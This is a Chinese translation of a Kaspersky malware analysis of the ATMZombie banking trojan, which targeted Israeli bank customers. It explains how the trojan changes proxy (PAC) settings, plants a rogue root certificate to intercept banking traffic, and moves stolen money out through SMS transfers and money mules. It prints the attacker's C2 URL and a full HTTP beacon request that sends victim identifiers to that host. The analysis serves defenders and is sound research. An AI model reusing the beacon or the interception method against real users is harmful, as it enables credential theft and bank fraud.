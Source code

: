 > 原文链接: https://www.anquanke.com//post/id/83554 


# ATMZombie: 以色列银行木马


                                阅读量   
                                **71734**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：360安全播报
                                <br>原文地址：[https://securelist.com/blog/research/73866/atmzombie-banking-trojan-in-israeli-waters/     ](https://securelist.com/blog/research/73866/atmzombie-banking-trojan-in-israeli-waters/%20%20%20%20%20)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p1.ssl.qhimg.com/t015c6b0402f78bd0f5.jpg)](https://p1.ssl.qhimg.com/t015c6b0402f78bd0f5.jpg)

        2015年11月，卡巴斯基实验室的研究人员确定银行木马ATMZombie是以色列有史以来第一个银行偷窃恶意软件。它采用复杂注入等阴险的方法。第一种方法，称为“代理更换”（proxy-changer），常用于HTTP数据包检查。它涉及到修改浏览器的代理配置，及作为“中间人”捕捉客户端和服务器之间的流量。

 

        虽然测试有效，窃取银行信息并不容易。银行使用了签署授权证书的加密通道，防止明文式传输的数据流出。但攻击者把自己的证书嵌入了目标电脑常用浏览器的root CA表中。

 

        使用“代理更换”木马窃取银行凭据的方法2005年就有了，被巴西的网络罪犯使用过；然而，直到2012年，卡巴斯基研究人员才给出攻击分析：2009年以来，巴西的银行木马恶意PAC文件很普遍，比如Trojan.Win32.ProxyChanger。

 

[![](https://p3.ssl.qhimg.com/t01936db6e5a1600293.png)](https://p3.ssl.qhimg.com/t01936db6e5a1600293.png)

        这次以色列的银行攻击事件有一个新颖的地方。没有仅仅利用电汇或交易凭证的漏洞，而是利用了银行联机功能的一个漏洞；之后从ATM取钱，协助没有攻击嫌疑的钱骡们；因此该木马被称为 – ATMZombie。

 

        该威胁者似乎广泛活跃于各种银行恶意软件活动，因为他为下列木马注册了域名：Corebot，Pkybot和最近的AndroidLocker。但他没有使用相同的手法。他还运行过恶意在线服务，如恶意软件加密和信用卡转储转让。

 

[![](https://p1.ssl.qhimg.com/t0156475e3f055253c5.png)](https://p1.ssl.qhimg.com/t0156475e3f055253c5.png)



        类似于2012年攻击PSB-retail，Retefe银行木马在去年8月被PaloAlto Networks发现。Retefe像是ATMZombie的前辈，它包含一个ATMZombie没有的Smoke Loader后门。另一个类似的银行木马是由IBM Trusteer确认的Tsukuba。

 

        代理配置文件很容易被找到，因此攻击者成功破坏了数百个受害者机器；但卡巴斯基实验室仅能追踪其中几十个。

 

**概述**

 

        木马植入受害者机器并开始解包，一旦解开，它会存储常见浏览器（Opera，火狐）的证书，并修改它们的配置来实现中间人攻击。然后消除恶意软件之外的其他所有代理，并更改缓存权限为只读。然后，它用Base64编码字符串改变了注册表项，该注册表项包含到自动配置内容（如：使用CAP文件的语法的流量捕获）的路径，并将自己签署证书安装到root文件夹中。之后，它等待受害者登录自己的银行账户，窃取他们的凭据，使用他们的名字登录并利用SMS功能汇款到ATMZombie。

 

[![](https://p2.ssl.qhimg.com/t01c0a4b4f74ff1b3db.png)](https://p2.ssl.qhimg.com/t01c0a4b4f74ff1b3db.png)



**<br>**

**分析**

        调试恶意程序后，我们捕捉到运行时产生的虚拟分配过程。断点分析后发现解压的可执行文件。一旦程序运行完，MZ头会出现在内存中。

 

[![](https://p1.ssl.qhimg.com/t01b99010a56b6c023e.png)](https://p1.ssl.qhimg.com/t01b99010a56b6c023e.png)



        查看恶意软件的汇编代码，我们能够确定一些字符串被嵌入到数据部分。发现的第一个是一大堆对外通迅URL中的Base64字符串，这些是要嵌入到注册表项中的。另外两个Base64串是PAC，嵌在浏览器的网络配置中。

[![](https://p1.ssl.qhimg.com/t015cd39e13fde84cae.png)](https://p1.ssl.qhimg.com/t015cd39e13fde84cae.png)



        第一个字符串解码到：http://retsback.com/config/cfg.pac

        备注：这不是嵌入浏览器网络配置的PAC文件，我们认为这是攻击者的备份，以防原PAC失效。



[![](https://p4.ssl.qhimg.com/t014b8e98ab326e648c.png)](https://p4.ssl.qhimg.com/t014b8e98ab326e648c.png)

[![](https://p3.ssl.qhimg.com/t018cb54607703a1c72.png)](https://p3.ssl.qhimg.com/t018cb54607703a1c72.png)

        Base64字符串中的URL被添加到指纹匹配沙箱的HTTP请求中。Windows ProductID、二进制名称和一个一到五之间的整数传递了空参数。其中整数表示恶意软件被分配到的完整级：从（1）不可信任级到（5）系统级。除了这三个动态值还有一个静态版本值。

 

GET<br>/z/rtback.php?id=[WindowsProductID]&amp;ver=0000002&amp;name=[malware_filename]&amp;ilvl=[integrity_level]HTTP/1.1<br>Host: retsback.com<br>Cache-Control: no-cache

 

        检查二进制文件，我们发现它使用证书通过HTTPS定位数据并成功窃取受害者的凭据。

 

[![](https://p4.ssl.qhimg.com/t01854428aeb181489a.png)](https://p4.ssl.qhimg.com/t01854428aeb181489a.png)



        在受害者的机器上植入证书和代理配置后，受害人登录银行时浏览器通过路由与攻击者的服务器通信。

 

        被诱骗下载恶意软件的不仅是以色列银行的客户，黑客针对了以色列特定的一家银行客户实施攻击。这要求他们有很好的情报搜集技术来获取客户端列表。有了这样的列表，攻击就会变得非常有效率，攻击者就能对针对特定的目标或银行所受到的每封电子邮件或特定链接做手脚。

 

        以下是恶意软件的完整伪代码：

 

[![](https://p5.ssl.qhimg.com/t01e8a9a6667cd8aa17.png)](https://p5.ssl.qhimg.com/t01e8a9a6667cd8aa17.png)



**总结 **

        该恶意软件只是攻击的第一步。第二步包括手动登录目标帐户，并转钱到钱骡的账户。这是很关键的一步，因为实施这一步意味着恶意软件已成功完成了其在攻击中的作用。

 

        手动登录到受害人的银行账号这一步也不能掉以轻心。世界各地的许多银行都在使用指纹设备，以确保用户使用值得信赖的终端操作。对于不受信任的机器，银行会实施扩展保护机制，防止在这篇文章中详细描述的攻击。此外，银行会跟踪异常，并向其信息安全人员发送警报。

 

[![](https://p0.ssl.qhimg.com/t01741323e3728b0091.png)](https://p0.ssl.qhimg.com/t01741323e3728b0091.png)



        在受害者发现并联系银行支持团队报告账户被盗之前，攻击者将偷到的钱通过钱骡的手机号码和以色列个人身份信息（PII）转移。我们戏称为钱骡为“僵尸”，调查中，研究人员发现青少年会被诱骗从ATM中提取现金，以赚取其中很少的一部分。后来，他们通过不同的媒介，比如邮局，发送的剩下的钱。

 

        该技术能让攻击者保持匿名，并远程监控整个活动。通过银行的指导文件，非注册用户可以研究其功能并分析对其攻击并偷窃钱财的可能性。此功能称为“SMS交易”；它在过去的几年中被广泛使用，可以让家长给正在服兵役或在学校学习的孩子寄钱。

 

        只要拥有几个特定的信息，比如日期，以色列ID，姓名和手机的拥有者数量，我们就能收到授权取现的短信。

 

        卡巴斯基实验室开发了保护不受proxy-changer攻击的新型方法。可以在[这里](https://securelist.com/analysis/publications/57891/pac-the-problem-auto-config/#attachment_63112)获取。
